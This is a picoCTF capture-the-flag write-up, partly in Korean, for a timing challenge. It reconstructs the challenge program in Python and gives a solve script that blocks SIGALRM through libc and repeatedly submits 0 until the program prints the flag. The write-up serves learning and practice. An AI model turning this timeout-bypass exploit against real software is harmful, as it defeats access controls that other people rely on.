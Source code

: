 # Time's Up, For the Last Time!
> You've solved things fast. You've solved things faster! Now do the impossible. times-up-one-last-time, located in the directory at /problems/time-s-up--for-the-last-time-_1_a7830af9d51a361ee5d3b9eece69c22f.

## Summary
* signal
* /dev/urandom
* ((char*)&n)[i]

## Analysis
``` python
from ctypes import *
from os import urandom
from sys import byteorder

libc = CDLL("libc.so.6")

guess = c_int()
result = c_int()

def init_randomness():
    libc.srand(libc.time(None))

def get_random():
    return c_int(int.from_bytes(urandom(8), byteorder))

def get_random_op():
    # v4 : v3 : v2
    v2 = 11119202356222773194984351477035
    v0 = libc.rand()
    return c_uint(v2 >> (v0 - 13 * ((0x4EC4EC4EC4EC4EC5 * v0 >> 64) >> 2)) * 8 & 0xff)

def do_op(a, b, c):
    try:
        return c_int({
            '%': b % c if c else b,
            '&': c & b,
            '*': c * b,
            '+': b + c,
            '-': b - c,
            '/': b / c if c else b,
            '^': c ^ b,
            'f': b,
            'o': c,
            'r': c,
            't': b,
            'x': c,
            '|': c | b
        }[chr(a)])
    except KeyError:
        exit(1)

def maybe_decrease(n):
    return c_int(n) if libc.rand() % 50 <= 0 else c_int(n - 1)

def gen_expr(n):
    if n:
        v3 = maybe_decrease(n).value
        v4 = maybe_decrease(n).value
        v5 = get_random_op().value
        print('(', end='')
        v6 = gen_expr(v3).value
        print(" %c " % chr(v5), end='')
        v7 = gen_expr(v4).value
        print(')', end='')
        return do_op(v5, v6, v7)
    else:
        v1 = get_random().value
        print("(%d)" % v1, end='')
        return c_int(v1)

def generate_challenge():
    global result
    result = gen_expr(4)


init_randomness()
print("Challenge: ", end='')
generate_challenge()
print(flush=True)
print("Setting alarm...", flush=True)
libc.ualarm(10, 0)
print("Solution? ", end='')
libc.scanf(b"%d", pointer(guess))

if guess.value == result.value:
    print("Congrats! Here is the flag!")
    libc.system("/bin/cat flag.txt")
else:
    print("Nope!")
```

## Solve
``` python
from ctypes import *
import subprocess

libc = CDLL("libc.so.6")

SIGALRM = 14
SIG_BLOCK = 0

class sigset_t(Structure):
    _fields_= [("__sigbit", c_uint * 4)]


sigset = sigset_t()

libc.sigemptyset(pointer(sigset))
libc.sigaddset(pointer(sigset), SIGALRM)
libc.sigprocmask(SIG_BLOCK, pointer(sigset), None)

while True:
    p = subprocess.Popen("./times-up-one-last-time", stdin=subprocess.PIPE, stdout=subprocess.PIPE)
    p.stdin.write('0\n')
    flag = p.stdout.read()
    if "pico" in flag:
        print(flag)
        break
```
이 문제의 의도는 C 언어에서 subprocess를 이용하는 것으로 보이지만 time-xxx 문제들은 모두 시그널을 Block 시켜서 풀 수 있다. 또한 주어진 식의 결과는 `/`, `%`와 같은 연산 때문에 정수 범위에서는 0이 나올 확률이 상당히 높다.  

flag: `picoCTF{And now you can hack time! #2e0a37d1}`
